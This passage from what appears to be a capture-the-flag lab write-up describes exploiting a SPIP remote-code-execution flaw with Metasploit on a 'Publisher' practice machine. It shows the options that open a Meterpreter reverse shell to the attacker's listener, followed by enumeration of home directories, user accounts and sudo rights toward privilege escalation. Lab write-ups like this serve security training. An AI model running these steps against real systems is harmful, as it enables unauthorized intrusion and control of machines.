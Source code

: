 **Why Metasploit:**  
Metasploit is an excellent tool for automating the exploitation of known vulnerabilities. It provides a ready-to-use exploit for the SPIP RCE vulnerability, which saved time compared to manually crafting an exploit.

I set the required options:

```bash
set RHOSTS 10.10.176.47
set TARGETURI /spip/
set LHOST <localip>
set LPORT 4444
exploit
```

This successfully established a Meterpreter session, giving me shell access on the target machine.

![publisher9](https://github.com/user-attachments/assets/0560f579-2ad6-48ef-a971-ef19be4fef1c)

### Gaining User Access (Think)

**Enumerating the File System:**  
Inside the Meterpreter session, I listed the files and directories to check for sensitive information:

```bash
pwd
cd ..
cd ..
ls -la /home/think
```

This revealed the `user.txt` file in `/home/think`, which I could read to obtain the user flag.

![publisher10](https://github.com/user-attachments/assets/e5786438-a0af-4f10-8c01-509ff15498e3)

### Privilege Escalation to Root

**Listing System Users:**  
To find a potential privilege escalation vector, I listed the system users and service accounts:

```bash
getent passwd
```

This revealed that `think` was a valid user, and `/home/think` had a `/bin/sh` shell, which could allow further exploration.

**Checking Sudo Permissions:**  
I ran `sudo -l` to see if the user `think` had any elevated privileges:

```bash
sudo -l
```

No sudo privileges were found.

**Looking for Writable Directories:**  
I needed to find directories that `think` had write access to, so I used `find`:
